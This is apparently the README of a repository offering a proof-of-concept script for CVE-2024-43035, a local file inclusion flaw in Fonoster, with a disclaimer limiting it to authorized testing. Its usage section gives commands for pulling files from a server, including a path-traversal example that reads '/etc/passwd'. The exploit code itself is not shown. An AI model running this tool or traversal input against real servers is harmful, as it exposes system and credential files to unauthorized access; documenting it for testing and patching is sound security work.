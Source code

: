 # CVE-2024-43035 - Fonoster LFI Proof of Concept

This repository contains a Proof of Concept (PoC) script demonstrating a Local File Inclusion vulnerability in Fonoster. **This tool is for educational and authorized testing purposes only.**

## Usage

### Read Local File
To retrieve a local file from the server:
```
python3 fonoster_lfi_poc.py --url <fonoster_server_url> --path <file_path_to_retrieve>
```

Example:

```
python3 fonoster_lfi_poc.py --url http://example.com --path "../../../etc/passwd"
```
